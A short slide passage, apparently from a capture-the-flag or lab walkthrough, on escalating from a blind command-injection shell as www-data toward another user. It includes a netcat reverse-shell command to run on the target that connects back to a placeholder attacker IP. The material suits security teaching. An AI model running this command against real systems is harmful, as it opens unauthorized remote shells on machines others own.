

www-data -> Pepper
Now we have a blind shell. (Can’t see any results!)
You can use tcpdump and ping to test that we do have command injection.
Let’s establish a better shell:
Start a new listener at a different port on your machine
On Target machine run:
nc YOUR_IP PORT –e /bin/bash

# Priv Esc